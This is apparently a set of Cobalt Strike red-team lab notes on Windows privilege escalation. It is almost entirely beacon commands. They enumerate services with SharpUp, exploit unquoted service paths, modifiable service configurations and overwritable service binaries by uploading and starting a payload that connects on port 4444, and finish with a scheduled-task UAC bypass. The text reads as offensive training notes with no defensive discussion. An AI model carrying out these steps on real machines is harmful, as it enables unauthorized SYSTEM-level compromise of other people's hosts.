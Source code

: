# Privilege Escalation

# Query and Manage all the installed services

    beacon> powershell Get-Service | fl
    beacon> run wmic service get name, pathname
    beacon> run sc query
    beacon> run sc qc VulnService2
    beacon> run sc stop VulnService1
    beacon> run sc start VulnService1

# Use SharpUp to find exploitable services

    beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit 

# CASE 1: Unquoted Service Path (Hijack the service binary search logic to execute our payload)

    beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath
    beacon> powershell Get-Acl -Path "C:\Program Files\Vulnerable Services" | fl
    beacon> cd C:\Program Files\Vulnerable Services
    beacon> upload C:\Payloads\tcp-local_x64.svc.exe
    beacon> mv tcp-local_x64.svc.exe Service.exe
    beacon> run sc stop VulnService1
    beacon> run sc start VulnService1
    beacon> connect localhost 4444

# CASE 2: Weak Service Permission (Possible to modify service configuration)

    beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices
    beacon> powershell-import C:\Tools\Get-ServiceAcl.ps1
    beacon> powershell Get-ServiceAcl -Name VulnService2 | select -expand Access
    beacon> run sc qc VulnService2
    beacon> mkdir C:\Temp
    beacon> cd C:\Temp
    beacon> upload C:\Payloads\tcp-local_x64.svc.exe
    beacon> run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe
    beacon> run sc qc VulnService2
    beacon> run sc stop VulnService2
    beacon> run sc start VulnService2
    beacon> connect localhost 4444

# CASE 3: Weak Service Binary Permission (Overwite the service binary due to weak permission)

    beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices
    beacon> powershell Get-Acl -Path "C:\Program Files\Vulnerable Services\Service 3.exe" | fl
    PS C:\Payloads> copy "tcp-local_x64.svc.exe" "Service 3.exe"
    beacon> run sc stop VulnService3
    beacon> cd "C:\Program Files\Vulnerable Services"
    beacon> upload C:\Payloads\Service 3.exe
    beacon> run sc start VulnService3
    beacon> connect localhost 4444

# UAC Bypass

    beacon> run whoami /groups
    beacon> elevate uac-schtasks tcp-local
    beacon> run netstat -anop tcp
    beacon> connect localhost 4444
